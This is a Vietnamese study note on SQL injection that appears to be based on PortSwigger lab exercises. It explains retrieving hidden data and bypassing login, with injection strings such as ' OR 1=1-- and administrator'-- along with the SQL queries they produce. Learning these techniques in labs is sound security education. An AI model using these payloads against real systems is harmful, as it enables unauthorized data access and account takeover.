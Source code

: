# SQL Injection

---

**What is SQL injection (SQLi)?**

> Là lỗi bảo mật web cho phép attacker can thiệp vào các truy vấn đối với CSDL. Thường sẽ cho phép attacker xem data mà không được cấp phép. Nhiều case thì attacker có thể thêm, sửa, xóa dữ liệu tùy ý.

---

**Tác hại của SQLi**

> Một cuộc attack SQLi thành công sẽ dẫn tới hậu quả khó lường như bị truy cập vào những data bí mật, nhạy cảm chẳng hạn như passwd, thẻ tín dụng, thông tin cá nhân...

---

**SQLi example**

1. Retrieving hidden data: Sửa đổi truy vấn SQL để trả về thêm kết quả
2. Subverting applicatication logic: Thay đổi query để can thiệp vào logic của app
3. Union attacks: Truy xuất các data từ các table khác nhau
4. Examining the database: Trích xuất thông tin về version, structure của database
5. Blind SQL injection: Kết quả query sẽ được trả về trong response của app

---

## Retrieving hidden data

Ví dụ:

```
https://insecure-website.com/products?category=Gifts
```

Trên database query với `category= Gifts` và đã được bán với `released=1`:

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

Attacker có thể sửa lại query và hiện thị tất cả các sản phâm kể cả chưa released hay đã released:

```
https://insecure-website.com/products?category=Gifts'--
```

Query trên db:

```
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

Với **--** là comment trong SQL, nó sẽ bỏ qua `AND released = 1`

Đi xa hơn, attacker có thể khiến ứng dụng hiện thị tất cả sản phẩm trong bất kì `category` nào:

```
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```

Query:

```
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

Vì 1=1 là luôn đúng, query sẽ trả về tất cả

### Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

> Des: Phòng thí nghiệm này chứa lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Khi người dùng chọn một danh mục, ứng dụng sẽ thực hiện một truy vấn SQL như sau:

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

> Để giải quyết phòng thí nghiệm, hãy thực hiện một cuộc tấn công SQL injection khiến ứng dụng hiển thị chi tiết của tất cả các sản phẩm trong bất kỳ danh mục nào, cả đã phát hành và chưa phát hành.

Bài này chỉ cần thêm chuỗi `'--` sẽ ra tất cả các sản phẩm của 1 category
Hoặc lấy tất cả category thì thêm chuỗi `' OR 1=1--`

Nếu sử dung trên burp suite thì phải control + u để encode sang html
![img](../asset/sqli-1-SQL-injection-vulnerability-in-WHERE-clause-allowing-retrieval-of-hidden-data-0.png)
![img](../asset/sqli-1-SQL-injection-vulnerability-in-WHERE-clause-allowing-retrieval-of-hidden-data-1.png)

---

## Subverting application logic

Một ứng dụng cho phép user đăng nhập bằng username + passwd.
Đây là cách DB query:

```
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```

Attacker có thể thêm `--` để bỏ yêu cầu passwd trên DB

```
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

### Lab: SQL injection vulnerability allowing login bypass

> Des: Phòng thí nghiệm này chứa lỗ hổng SQL injection trong chức năng đăng nhập.

> Để giải quyết phòng thí nghiệm, hãy thực hiện một cuộc tấn công chèn SQL đăng nhập vào ứng dụng với tư cách là người dùng quản trị viên.

Bài này chỉ cần nhập input của user thêm chuỗi `'--`:
![img](../asset/sqli-2-SQL-injection-vulnerability-allowing-login-bypass-0.png)
![img](../asset/sqli-2-SQL-injection-vulnerability-allowing-login-bypass-1.png)
![img](../asset/sqli-2-SQL-injection-vulnerability-allowing-login-bypass-2.png)
